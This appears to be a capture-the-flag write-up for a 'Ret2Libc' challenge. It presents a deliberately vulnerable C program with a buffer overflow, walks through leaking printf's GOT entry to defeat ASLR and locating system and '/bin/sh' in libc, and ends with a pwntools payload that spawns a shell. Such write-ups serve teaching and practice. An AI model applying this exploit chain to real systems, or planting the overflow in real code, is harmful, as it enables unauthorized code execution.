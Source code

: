 # Ret2Libc

```C
#include<stdio.h>
//#include<stdlib.h>

int main(){
    setvbuf(stdout,0,2,0);
    printf( "Where do you want to see in the memory? Give me the address in decimal:" );
    long *p;
    scanf( "%ld" , &p );
    printf( "The value in memory at %p is %p.\n" , p , *p );

    puts("Bypass the check, and ret2libcccccccccccc");

    char buf[10];
    read( 0 , buf , 200 );
    
    if( strlen( buf ) > 6 ) {
        puts( "It could not > 6. If you want the flag, Over my dead body!!!!!" );
        exit(0);
    }

    return 0;
}
```
Because ASLR is on, so we need to leak out the real address at the time running the program.

As we can see, we can throw a decimal address to obtain the real address.

So, which address should we throw?

There are two options: 1.setvbuf 2.printf

For my solution, I chose the second choice. Now, what address should we throw over?

Here, another required knowledge is about `Lazy Binding`, which has to do with `PLT (Procedure Linkage Table)` and `GOT (Global Offset Table)`. Once a function is called, its address in GOT will remain.

    400773:	bf 98 08 40 00       	mov    $0x400898,%edi
    400778:	b8 00 00 00 00       	mov    $0x0,%eax
    40077d:	e8 6e fe ff ff       	callq  4005f0 <printf@plt>
    
 From `objdump` we can see that calling `printf()` is calls `4005f0 <printf@plt>`. So that continue to look at where it goes.
 
    00000000004005f0 <printf@plt>:
    4005f0:	ff 25 32 0a 20 00    	jmpq   *0x200a32(%rip)        # 601028 <_GLOBAL_OFFSET_TABLE_+0x28>
    4005f6:	68 02 00 00 00       	pushq  $0x2
    4005fb:	e9 c0 ff ff ff       	jmpq   4005c0 <_init+0x28>
    
 Ah! It goes to `print@plt` and in the first line it jumps to `601028` in the GOT. GOT address will be one we need.
 
 Remeber this equation:
 
  <b> `Real Address = Base Address + Offset` </b>
  
So, where do we find offset of a function? Libc.so.6!

There are two ways to read `libc.so.6`:

  1.  objdump -T libc.so.6
  2.  readelf -s libc.so.6
 
For me, I prefer the second one, since it looks nicer.

After we have the offset of `printf`, we can now caculate the base address:

    Real Address (Obtain from output) = Base Address + Offset (Obtain from libc.so.6)
    Base Address = printf_addr - printf_offset
    
Then we need `system` since our goal is to call `system("/bin/sh")`

Agian `system` offset can be found in `libc.so.6`.
  
    system_addr = base_addr + system_offset
    
Now how about `/bin/sh`? Let's try finding it in `libc.so.6`! Luckily, we found it!

    strings -t x libc.so.6 | grep "/bin/sh"
    
In the end, we need to caculate our payload from `objdump`, which is 0x28. Thus, the final payload will be:
  
```Python
p.sendline(b"A"*0x5 + b"\x00" + b"\x90"*0x22 + p64(0x400873) + p64(bin_sh_addr) + p64(sys_addr))
```
  

 
 
